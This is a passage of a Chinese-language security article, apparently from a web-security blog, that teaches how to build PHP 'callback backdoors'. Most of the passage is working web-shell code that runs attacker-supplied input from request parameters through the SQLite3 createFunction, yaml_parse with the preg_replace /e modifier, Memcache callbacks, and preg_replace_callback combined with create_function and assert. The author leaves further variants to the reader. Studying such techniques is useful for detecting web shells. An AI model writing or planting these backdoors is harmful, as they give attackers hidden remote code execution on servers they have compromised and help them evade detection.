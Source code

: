 执行之：

![enter image description here](http://drops.javaweb.org/uploads/images/107bff72fdb1974f52add26c58af934bfe30ef44.jpg)

上面的sqlite方法是依靠PDO执行的，我们也可以直接调用sqlite3的方法构造回调后门：

```
$e = $_REQUEST['e'];
$db = new SQLite3('sqlite.db3');
$db->createFunction('myfunc', $e);
$stmt = $db->prepare("SELECT myfunc(?)");
$stmt->bindValue(1, $_REQUEST['pass'], SQLITE3_TEXT);
$stmt->execute();

```

前提是php5.3以上。如果是php5.3以下的，使用sqlite_*函数，自己研究我不列出了。

这两个回调后门，都是依靠php扩展库（pdo和sqlite3）来实现的。其实如果目标环境中有特定扩展库的情况下，也可以来构造回调后门。 比如php_yaml：

```
$str = urlencode($_REQUEST['pass']);
$yaml = <<<EOD
greeting: !{$str} "|.+|e"
EOD;
$parsed = yaml_parse($yaml, 0, $cnt, array("!{$_REQUEST['pass']}" => 'preg_replace'));

```

还有php_memcached：

```
$mem = new Memcache();
$re = $mem->addServer('localhost', 11211, TRUE, 100, 0, -1, TRUE, create_function('$a,$b,$c,$d,$e', 'return assert($a);'));
$mem->connect($_REQUEST['pass'], 11211, 0);

```

自行研究吧。

0x08 其他参数型回调后门
==============

* * *

上面说了，回调函数格式为1、2、3参数的时候，可以利用assert、assert、preg_replace来执行代码。但如果回调函数的格式是其他参数数目，或者参数类型不是简单字符串，怎么办？

举个例子，php5.5以后建议用`preg_replace_callback`代替`preg_replace`的`/e`模式来处理正则执行替换，那么其实`preg_replace_callback`也是可以构造回调后门的。

`preg_replace_callback`的第二个参数是回调函数，但这个回调函数被传入的参数是一个数组，如果直接将这个指定为assert，就会执行不了，因为assert接受的参数是字符串。

所以我们需要去“构造”一个满足条件的回调函数。

怎么构造？使用`create_function`：

```
preg_replace_callback('/.+/i', create_function('$arr', 'return assert($arr[0]);'),$_REQUEST['pass']);

```
